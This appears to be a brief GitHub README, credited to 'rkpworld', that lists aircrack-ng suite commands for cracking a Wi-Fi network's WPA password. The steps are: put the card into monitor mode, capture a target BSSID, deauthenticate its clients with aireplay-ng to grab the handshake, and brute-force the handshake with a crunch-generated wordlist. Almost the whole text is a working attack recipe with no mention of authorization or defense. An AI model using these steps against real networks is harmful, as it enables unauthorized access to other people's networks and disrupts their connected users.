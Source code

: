 # wifi-cracking-dictionary-attack-
1.airmon-ng (to know status of N/W) 
2.airmon-ng start wlan0 (to enable monitor mode) 
3.airodump-ng wlan0mon (list of networks) 
4.airodump-ng -c 11 --bssid 44:D4:E0:5D:3C:AD -w /root/1 wlan0mon (capture handshake) 
5.aireplay-ng -0 10 -a 44:D4:E0:5D:3C:AD wlan0mon (to capure handshake) 
6.aircrack-ng -w 1.lst 1-01.cap (dictionary matching)  
to create dictionary --- crunch 3 3 -t %%% -o 1.lst      


by:rkpworld  
